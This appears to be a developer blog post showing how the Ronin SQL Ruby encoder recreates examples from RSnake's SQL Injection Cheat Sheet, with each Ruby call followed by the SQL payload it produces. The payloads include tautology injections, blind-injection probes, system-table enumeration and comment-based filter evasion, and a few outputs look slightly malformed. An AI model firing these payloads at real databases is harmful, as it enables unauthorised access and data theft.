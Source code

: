 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin-sql`:

    require 'ronin/code/sql' 
    include Ronin

    sql = Code.sql

Normal SQL Injection:

    sql[1, :or, 1, :eq, 1].to_s
    # => "1 or 1 = 1"

Normal SQL Injection using encapsulated data:

    sql['1', :or '1', :eq, '1'].to_s
    # => "'1' or '1' = '1'"

Blind SQL Injection creating an error using EXEC:

    sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_s
    # => "1 exec sp_ (or exec xp_)"

Blind SQL Injection detection:

    sql[1, :and, 1, :eq, 1].to_s
    # => "1 and 1 = 1"

Blind SQL Injection to attempt to locate tablenames by brute-force
iteration through potential names:

    sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_s
    # => "'1' and 1 = (select count(*) from tablenames)"

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

    sql[1, :and, sql.user_name(), :eq, 'dbo'].to_s
    # => "1 and user_name() = 'dbo'"

Creating errors by calling fake tables:

    sql[1, :and, :non_existant_table, :eq, '1'].to_s
    # => "1 and non_existant_table = '1'"

Dumping usernames:

    sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_s
    # => "or username is not null or username ="

Enumerating through database table names:

    sql[1, :and, sql.ascii(sql.lower(sql.substring( [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1))), :gt, 116].to_s
    # => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"

Finding user supplied tables using the sysObjects table in SQL Server:

    sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_s
    # => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"

Bypassing filter evasion using comment tags:

    stmt = sql[1, :union, :select, :all, :from, :where]
    stmt.to_s
    # => "1 union select * from where"

    stmt.spaces = false
    stmt.to_s
    # => "1/**/union/**/select/**/*/**/from/**/where"

<div class="note">
  <p>
    I cheated a little by leaving off the prefix/suffix tick-marks used in
    SQL injections, but you get the general idea.
  <p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.
